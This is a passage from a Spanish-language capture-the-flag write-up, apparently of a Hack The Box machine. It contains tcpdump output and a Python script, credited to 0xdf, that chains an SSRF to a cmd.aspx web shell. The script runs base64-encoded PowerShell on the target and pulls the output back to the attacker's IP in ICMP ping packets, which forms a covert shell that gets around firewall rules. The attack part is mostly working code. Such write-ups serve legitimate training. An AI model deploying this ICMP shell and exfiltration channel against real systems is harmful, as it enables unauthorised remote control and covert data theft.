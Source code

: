 ```null
tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
19:03:01.964837 IP 10.10.10.57 > 10.10.16.2: ICMP echo request, id 1, seq 1, length 40
19:03:01.965043 IP 10.10.16.2 > 10.10.10.57: ICMP echo reply, id 1, seq 1, length 40
```

Hay reglas de Firewall implimentadas, por lo que la única forma de enviarme una reverse shell es a través de trazas de ICMP. Pero al intentar enviar el ```Invoke-PowerShellICMP.ps1``` recibo un error, ya que es demasiado grande. Lo deposito de varias veces en un archivo. Utilizaré un script desarrolado por [0xdf](https://www.youtube.com/watch?v=itMImlUZP0E)

{%raw%}
```null
#!/usr/bin/env python3

import base64
import requests
import threading
from cmd import Cmd
from scapy.all import *
from urllib.parse import quote


class Term(Cmd):

    prompt = "[~] - "
    cmd_payload = """$cmd = '{cmd}'; $step=1000; $ping = New-Object System.Net.NetworkInformation.Ping; $opts = New-Object System.Net.NetworkInformation.PingOptions; $opts.DontFragment = $true; $res=(iex -command $cmd|out-string); $data = [System.Text.Encoding]::ASCII.GetBytes($res); $i=0; while($i -lt $data.length){{$ping.send('10.10.16.2', 5000, $data[$i..($i+$step)], $opts); $i=$i+$step}}"""


    def __init__(self):
        super().__init__()
        thread = threading.Thread(target=self.listen_thread, args=())
        thread.daemon = True
        thread.start()


    def listen_thread(self):
        sniff(filter="icmp and src 10.10.10.57", iface="tun0", prn=self.handle_icmp)


    def handle_icmp(self, pkt):
        print(pkt[Raw].load.decode(), end="")
        sys.stdout.flush()


    def default(self, args):
        cmd = self.cmd_payload.format(cmd=args)
        enccmd = quote(quote(base64.b64encode(cmd.encode('utf-16le')).decode()))
        requests.get(f'http://10.10.10.57:62696/test.asp?u=http://127.0.0.1:80/cmd.aspx?xcmd=powershell+-enc+{enccmd}')


term = Term()
try:
    term.cmdloop()
except KeyboardInterrupt:
    print()
```
{%endraw%}
